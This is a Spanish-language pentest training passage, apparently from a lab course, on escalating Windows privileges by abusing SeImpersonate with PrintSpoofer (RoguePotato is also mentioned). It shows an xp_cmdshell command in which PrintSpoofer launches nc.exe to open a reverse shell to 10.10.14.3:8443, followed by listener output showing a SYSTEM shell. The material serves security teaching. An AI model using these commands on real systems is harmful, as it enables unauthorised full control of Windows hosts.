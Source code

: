 
## PrintSpoofer and RoguePotato

JuicyPotato no funciona en Windows Server 2019 y Windows 10 build 1809 en adelante. Sin embargo, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) y [RoguePotato](https://github.com/antonioCoco/RoguePotato) se pueden usar para aprovechar los mismos privilegios y obtener acceso de nivel `NT AUTHORITY\SYSTEM`. Esta [entrada de blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) profundiza en la herramienta `PrintSpoofer`, que se puede usar para abusar de los privilegios de suplantación en hosts Windows 10 y Server 2019 donde JuicyPotato ya no funciona.

### Escalating Privileges using PrintSpoofer

Probemos esto usando la herramienta `PrintSpoofer`. Podemos usar la herramienta para generar un proceso SYSTEM en tu consola actual e interactuar con él, generar un proceso SYSTEM en un escritorio (si estás conectado localmente o a través de RDP), o capturar un shell inverso - que haremos en nuestro ejemplo. Nuevamente, conéctate con `mssqlclient.py` y usa la herramienta con el argumento `-c` para ejecutar un comando. Aquí, usando `nc.exe` para generar un shell inverso (con un listener de Netcat esperando en nuestra máquina de ataque en el puerto 8443).

```r
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

### Catching Reverse Shell as SYSTEM

Si todo va según lo planeado, tendremos un shell SYSTEM en nuestro listener de netcat.

```r
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Escalar privilegios aprovechando `SeImpersonate` es muy común. Es esencial estar familiarizado con los diversos métodos disponibles según la versión y el nivel del sistema operativo objetivo.